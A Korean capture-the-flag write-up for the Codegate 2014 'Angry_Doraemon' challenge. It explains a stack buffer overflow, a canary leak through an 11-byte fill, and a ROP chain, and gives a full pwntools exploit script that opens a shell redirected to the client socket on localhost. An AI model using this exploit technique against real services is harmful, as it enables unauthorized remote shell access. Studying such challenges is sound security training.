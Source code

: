 # 주의 사항

이 문제를 풀려면 바이너리 외에도

* doraemon.txt
* bread.txt
* mouse.txt

가 있어야 합니다. (내용은 영향을 끼치지 않음 ㅎㅎ..)



# Codegate Quals 2014 Angry_Doraemon 풀이

문제 요약 : Canary leak 및 read를 통한 Stack buffer overflow를 요구하는 문제



일단 이 문제의 취약점은 Mouse 메뉴에 있었다.

![Doraemon](./rsrc/Angry_Doraemon_0.JPG)

분명 buf는 10byte가 할당되었는데, read로 110의 크기만큼 넣을 수 있으니 buffer overflow를 일으킬 수 있다.

그리고 그 밑에 sprintf를 보면 buf의 값을 NULL을 만날 때까지 출력해주니 10바이트 만큼 채워주면 canary가 leak이 될 것이다.



일단 10바이트를 넣어서 leak이 되나 확인을 해본다.

![Doraemon](./rsrc/Angry_Doraemon_1.JPG)

ㅇㅇ?  10바이트("y"*9 + "\n")을 넣어도 canary가 leak이 안된다.

다른 문제에서도 봤듯이 아마 11바이트가 "\x00"이라서 11바이트까지 채워줘야하는 것 같다.

11바이트 까지 채워서 보면

![Doraemon](./rsrc/Angry_Doraemon_2.JPG)

"\xdd\x9d\x37" 및 여러 개가 더 붙어서 나왔다. 아마 canary는 0x379ddd00인 것 같다.



canary를 leak했으니 이젠 rop를 하면 될 것인데, sub_8048B30(Sword) 메뉴를 보면 쌩뚱맞게

![Doraemon](./rsrc/Angry_Doraemon_3.JPG)

/bin/sh가 있다;;; 이 영역으로 eip를 탈려고 했는데, execl("/bin/sh", "sh", 0) 함수는 서버 쪽에서 쉘을 열기 때문에 client에서는 아무 것도 못한다 ㅎ..

그래서 리다이렉트로 client에서 쉘을 따야 한다. 이를 바탕으로 페이로드를 작성하면

```python
from pwn import *

#context.log_level = "debug"

binary = "angry_doraemon"
libc = "/lib/i386-linux-gnu/libc.so.6"

#==========================Canary leak==========================#
r = remote('localhost', 8888)

r.recvuntil(">")
r.sendline("4")
r.recvuntil("Are you sure? (y/n)")
r.send("y"*11)
r.recvuntil("y"*11)
canary = "\x00"
canary += r.recv(3)
r.close()

#============================Exploit=============================#
r = remote('localhost', 8888)

system = 0xf75f4da0
read_plt = 0xf768faf0
read_got = 0xf768fb20
write_plt = 0xf768fb60
write_got = 0xf768fb90
pppr = 0x08048b2c
bss = 0x0804b080

print "[*] Canary Value : " + hex(u32(canary))
r.recvuntil(">")
r.sendline("4")
r.recvuntil("Are you sure? (y/n)")

payload = "A"*10
payload += canary
payload += "B"*12

payload += p32(read_plt)
payload += p32(pppr)
payload += p32(4)
payload += p32(bss)
payload += p32(len("/bin/sh 0>&4 1>&4") + 1)

payload += p32(system)
payload += "FLAG"
payload += p32(bss)

r.sendline(payload)
r.recv(1024)
r.sendline("/bin/sh 0>&4 1>&4")
r.interactive()
r.close()
```

이렇게 완성이 된다 ㅎㅎ..

각각의 주소는 sleep으로 약간의 텀을 준 다음, gdb로 attach를 걸어 찾았다.



암튼 실행을 하면??

![Doraemon](./rsrc/Angry_Doraemon_4.JPG)

성공이다!!